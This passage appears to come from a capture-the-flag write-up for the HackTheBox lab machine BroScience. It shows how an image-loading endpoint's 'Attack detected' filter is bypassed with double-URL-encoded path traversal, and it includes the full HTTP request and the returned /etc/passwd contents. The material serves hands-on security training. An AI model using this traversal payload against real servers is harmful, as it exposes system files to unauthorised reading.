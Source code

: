 ![Register](/assets/images/2023/04/BroScience/Register.png "Register")

I kept looking around. Eventually, I saw the image's URL: `https://broscience.htb/includes/img.php?path=bench.png`. This looked like it could be vulnerable to LFI.

I tried loading `https://broscience.htb/includes/img.php?path=/etc/passwd`. The paged showed `Error: Attack detected`. 

I tried encoding the slashes, it gave me the same error. I kept playing with it, I needed to double URL encode the slashes to get the file.

```http
GET /includes/img.php?path=..%252f..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=6drat5f8omo5h6l5hmjinrcdai
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Sun, 29 Jan 2023 16:33:15 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 2235
Connection: close
Content-Type: image/png

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```